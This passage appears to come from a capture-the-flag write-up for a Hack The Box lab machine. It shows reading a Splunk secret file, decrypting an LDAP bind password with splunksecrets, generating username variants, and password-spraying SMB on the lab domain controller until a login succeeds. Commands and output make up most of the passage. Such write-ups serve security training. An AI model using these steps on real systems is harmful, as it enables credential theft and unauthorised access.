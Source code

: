 ```json

[authentication]
authSettings = Haze LDAP Auth
authType = LDAP
```

We find a user: `Paul Taylor` and an encrypted `bindDNpassword`, we need a secret to decrypt this so let's look for and grab it.

`C:/Program Files/Splunk/etc/auth/splunk.secret`

```
NfKeJCdFGKUQUqyQmnX/WM9xMn5uVF32qyiofYPHkEOGcpMsEN.lRPooJnBdEL5Gh2wm12jKEytQoxsAYA5mReU9.h0SYEwpFMDyyAuTqhnba9P2Kul0dyBizLpq6Nq5qiCTBK3UM516vzArIkZvWQLk3Bqm1YylhEfdUvaw1ngVqR1oRtg54qf4jG0X16hNDhXokoyvgb44lWcH33FrMXxMvzFKd5W3TaAUisO6rnN0xqB7cHbofaA1YV9vgD
```

Let's use [Splunk Secrets](https://github.com/HurricaneLabs/splunksecrets) to decrypt the password we found.

```bash
splunksecrets splunk-decrypt --ciphertext '$7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY=' -S splunksecret.txt

Ld@p_Auth_Sp1unk@2k24
```

Lets use `username anarchy` to generate a list of usernames with various formats.

```bash
username-anarchy --input-file users.txt

paul
paultaylor
paul.taylor
paultayl
pault
p.taylor
ptaylor
tpaul
t.paul
taylorp
taylor
taylor.p
taylor.paul
pt
```

Now let's do a password spray on these usernames.

```bash
nxc smb haze.htb -u paultaylor.txt -p 'Ld@p_Auth_Sp1unk@2k24'

SMB         10.129.228.118  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
SMB         10.129.228.118  445    DC01             [-] haze.htb\paul:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.228.118  445    DC01             [-] haze.htb\paultaylor:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
SMB         10.129.228.118  445    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24
```
